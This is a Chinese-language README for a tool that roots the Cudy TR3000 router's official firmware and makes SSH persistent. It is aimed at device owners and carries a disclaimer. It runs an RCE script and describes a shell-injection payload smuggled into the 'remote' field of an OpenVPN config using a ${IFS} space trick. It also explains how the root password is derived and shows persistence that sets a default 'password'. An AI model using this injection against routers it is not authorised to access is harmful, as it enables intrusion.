

# Cudy TR3000 256MB V1 官方固件开启 SSH/root

本文记录在 **Cudy TR3000 256MB Flash V1.0** 官方固件上开启 SSH、获取 root shell、并固化 dropbear 的过程。

笔者验证的设备与固件：

```text
Cudy TR3000 256MB Flash V1.0
Firmware: 2.4.21-20251009-115734
```

默认管理地址按出厂值写：

```text
http://192.168.10.1
```

如果你的后台地址不是这个，把命令里的 `192.168.10.1` 换成你的路由器地址即可。

## 免责声明

操作前请先读完：

- 本项目只用于学习、研究、备份和管理你自己拥有或明确授权的设备。
- 不要把本文方法用于他人设备、公共网络、公司网络、运营商设备或任何未经授权的目标。
- 本项目不是 Cudy 官方工具，也不代表 Cudy 官方意见。
- 操作会修改路由器系统文件、root 密码、SSH 服务、开机脚本和 sysupgrade 保留配置。
- 操作可能导致 SSH 暴露、弱密码风险、后台异常、网络中断、配置丢失，极端情况下可能需要恢复出厂或救援刷机。
- 不保证适用于所有硬件批次、地区版本、固件版本或未来固件。
- 普通重启已由笔者验证；官方 sysupgrade 保留配置时做了自愈处理，但不能承诺所有升级场景 100% 保留。
- 恢复出厂会清掉本文修改。
- 固化脚本默认把 root 密码改成 `password` 只是为了方便演示。按本文步骤第一次重新登录后，请立刻改成你自己的强密码。
- 因使用本文造成的设备损坏、断网、数据丢失、保修争议、安全事故或法律责任，由操作者自行承担。

继续往下做，表示你理解并接受以上风险。

## 救援恢复下载链接

如果系统搞坏了，原厂 U-Boot 还在，看下面这篇官方恢复文章即可：

- Cudy 官方恢复教程：<https://www.cudy.com/zh-cn/blogs/faq/how-to-recovery-the-cudy-router-from-openwrt-firmware-to-cudy-official-firmware>
- TR3000 256MB Flash V1.0 官方固件：<https://d1jvyy13vm72kv.cloudfront.net/device/upgrade/m_upgrade_TR3000_256MB_Flash-R103-2.4.21-20251009-115734-sysupgrade_44834.zip>

## 效果截图



## 准备

电脑上需要有：

```text
Python 3
ssh
scp
```

下载本仓库后，进入目录：

```sh
cd cudy-tr3000-ssh-root
```

## 步骤 1：临时打开 SSH

后台密码是首次激活路由器时自定义的管理密码。

在电脑终端执行：

```sh
python3 cudy_tr3000_openvpn_rce.py --password '你的后台密码' --start-ssh
```

如果路由器不是默认地址，用 `--base` 指定：

```sh
python3 cudy_tr3000_openvpn_rce.py --base http://192.168.10.1 --password '你的后台密码' --start-ssh
```

成功后会看到类似输出：

```text
[+] logged in to LuCI
[+] fuuid: ...
[+] hmac: ...
[+] derived root password: ...
[+] temporary SSH should now be listening on 192.168.10.1:22
```

记下这一行后面的值：

```text
derived root password
```

这是当前设备临时 root 密码。每台设备都不一样，以你终端实际输出为准。

## 步骤 2：登录 root

在电脑终端执行：

```sh
ssh root@192.168.10.1
```

密码输入上一步得到的 `derived root password`。

登录后执行：

```sh
id
```

如果看到下面输出，就说明已经拿到 root：

```text
uid=0(root) gid=0(root)
```

此时 SSH 只是临时打开，重启后会消失。继续下一步固化。

## 步骤 3：固化 SSH

先把固化脚本传到路由器：

```sh
scp install_persistent_ssh.sh root@192.168.10.1:/tmp/
```

这里仍然使用 `derived root password` 作为密码。

然后执行固化脚本：

```sh
ssh root@192.168.10.1 'sh /tmp/install_persistent_ssh.sh'
```

执行过程中可能会看到：

```text
Bad password: too weak
```

这是因为脚本会把 root 密码设置为 `password`，系统会提示密码太弱。只要后面出现下面这句，就表示修改成功：

```text
passwd: password for root changed by root
```

脚本最后应该输出：

```text
persistent-ssh-ok
```

脚本执行完成后，root 密码会暂时变为：

```text
password
```

`password` 只用于第一次重新登录，长期使用请立刻改掉。

## 步骤 4：重新登录并修改 root 密码

临时 SSH 和固化后的 SSH 可能使用不同 host key。电脑如果提示：

```text
REMOTE HOST IDENTIFICATION HAS CHANGED
```

先清理本机旧记录：

```sh
ssh-keygen -R 192.168.10.1
```

然后重新登录：

```sh
ssh root@192.168.10.1
```

密码输入：

```text
password
```

登录后立刻修改 root 密码：

```sh
passwd root
```

按提示输入你自己的新密码两次。后面重新登录、重启验证都使用这个新 root 密码。

登录后检查：

```sh
id
/etc/init.d/dropbear running && echo procd-running
grep -n bdinfo /etc/init.d/dropbear || true
sysupgrade -l | grep /etc/rc.local
sysupgrade -l | grep /etc/init.d/dropbear
sysupgrade -l | grep /etc/sysupgrade.conf
```

笔者设备上的结果如下：

```text
uid=0(root) gid=0(root)
procd-running
/etc/rc.local
/etc/init.d/dropbear
/etc/sysupgrade.conf
```

`grep -n bdinfo /etc/init.d/dropbear` 没有输出，表示官方限制 SSH 启动的门槛已经移除。

## 步骤 5：重启验证

在路由器 SSH 里执行：

```sh
reboot
```

等待路由器恢复后，再次登录：

```sh
ssh root@192.168.10.1
```

密码仍然是：

```text
你刚设置的新 root 密码
```

笔者实测普通重启后 SSH 仍然可用。

## 固件升级后会不会失效？

固化脚本做了两层处理，目标是让官方固件升级后也尽量恢复 SSH。

第一层：把关键文件加入 `/etc/sysupgrade.conf`，让 sysupgrade 保留：

```text
/etc/sysupgrade.conf
/etc/rc.local
/etc/init.d/dropbear
/etc/config/dropbear
/etc/dropbear/
/etc/passwd
/etc/shadow
/etc/rc.d/S19dropbear
/etc/rc.d/K50dropbear
```

第二层：在 `/etc/rc.local` 加入开机自愈逻辑。每次开机都会自动做这些事：

```text
删除 /etc/init.d/dropbear 里的 bdinfo dbg 门槛
开启 RootLogin / PasswordAuth / RootPasswordAuth
enable dropbear
如果 dropbear 没运行就启动
```

笔者还做过模拟验证：手动把 `bdinfo dbg` 那行插回 dropbear 脚本，再执行 `/etc/rc.local`，它会自动删掉这行，并保持 `dropbear` 为 `procd-running`。

结论：

- 普通重启：笔者已验证，SSH 还在。
- 官方 sysupgrade 且保留配置：这套方案会尽量自动恢复。
- 恢复出厂：会清掉，不保留。
- 跨大版本固件升级：不保证 100%，升级后建议立刻 SSH 验证。

## 原理简述

官方系统里本来就有 dropbear：

```text
/etc/init.d/dropbear
/usr/sbin/dropbear
```

但启动函数里有门槛：

```sh
[ "$(bdinfo dbg)" == OK ] || return
```

Web 后台的 OpenVPN 客户端页面会解析上传的 `.ovpn` 文件：

```text
remote <server> <port>
```

它把 `<server>` 写入 UCI 后，保存时又拼进 shell 命令执行 `sed`，没有做 shell 转义，所以可以构造：

```text
remote 1.2.3.4';命令;# 1194
```

因为 `<server>` 字段不能有真实空格，脚本里会把命令里的空格换成 `${IFS}`。

脚本先执行：

```sh
bdinfo hmac
```

再按官方脚本里的逻辑计算 root 密码：

```text
root_password = sha256(bdinfo fuuid + bdinfo hmac)
```

然后临时启动 dropbear：

```sh
/usr/sbin/dropbear -p 22
```

拿到 SSH 后，再执行固化脚本。

## 回滚

关闭 SSH：

```sh
/etc/init.d/dropbear stop
/etc/init.d/dropbear disable
```

修改 root 密码：

```sh
passwd root
```

删除开机自愈块：

```sh
sed -i '/# CUDY_TR3000_SSH_BEGIN/,/# CUDY_TR3000_SSH_END/d' /etc/rc.local
```

如果要恢复官方 dropbear 脚本，只能用提前备份的文件覆盖回去，或者等官方固件升级覆盖。
